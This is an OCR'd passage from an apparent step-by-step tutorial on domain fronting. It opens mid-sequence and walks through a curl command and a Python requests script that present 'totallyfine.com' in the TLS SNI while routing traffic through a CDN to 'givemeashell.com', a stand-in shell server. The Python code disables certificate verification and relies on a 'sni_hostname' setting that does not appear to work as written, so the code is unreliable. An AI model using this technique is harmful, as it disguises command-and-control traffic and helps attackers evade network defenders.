 #### 2. Preparing the Request

You need to make a request that uses `totallyfine.com` in the SNI but routes the traffic to `givemeashell.com`.

**Using cURL**:

```bash
curl -H "Host: givemeashell.com" --resolve totallyfine.com:443:192.168.5.1 https://totallyfine.com
```
#### 3. Using a CDN

CDNs like Cloudflare or Akamai are used to cache and serve content. In this case, `cdn314.notarealprovider.com` and `cdn112.notarealprovider.com` are the CDN endpoints for `totallyfine.com` and `givemeashell.com`, respectively.

Since the CDN caches content for different domains, you can leverage the CDN infrastructure to perform domain fronting.

### Example Walkthrough

1. **Initiate the Request from the Workstation**:
   - The workstation (10.5.5.5) makes a request to `totallyfine.com` using SNI.
   - The actual request inside the HTTP header points to `givemeashell.com`.

2. **SNI and HTTP Host Header Manipulation**:
   - The request uses `totallyfine.com` in the SNI extension.
   - The HTTP Host header points to `givemeashell.com`.

3. **CDN Processing**:
   - The CDN endpoint (192.168.5.1) receives the request.
   - The SNI indicates `totallyfine.com`, so the CDN accepts the connection.
   - The HTTP Host header specifies `givemeashell.com`, so the CDN serves content from `givemeashell.com`.

### Code Example with Python (Optional)

You can also perform this with a Python script using the `requests` library. Here's a simplified example:

```python
import requests
from requests.adapters import HTTPAdapter
from requests.packages.urllib3.poolmanager import PoolManager
import ssl

class SNIAdapter(HTTPAdapter):
    def __init__(self, server_name, *args, **kwargs):
        self.server_name = server_name
        super(SNIAdapter, self).__init__(*args, **kwargs)

    def init_poolmanager(self, *args, **kwargs):
        kwargs['ssl_context'] = self._create_ssl_context(self.server_name)
        return super(SNIAdapter, self).init_poolmanager(*args, **kwargs)

    def _create_ssl_context(self, server_name):
        context = ssl.create_default_context()
        context.check_hostname = False
        context.verify_mode = ssl.CERT_NONE
        context.sni_hostname = server_name
        return context

session = requests.Session()
session.mount('https://', SNIAdapter('totallyfine.com'))

response = session.get('https://totallyfine.com', headers={'Host': 'givemeashell.com'}, verify=False)
```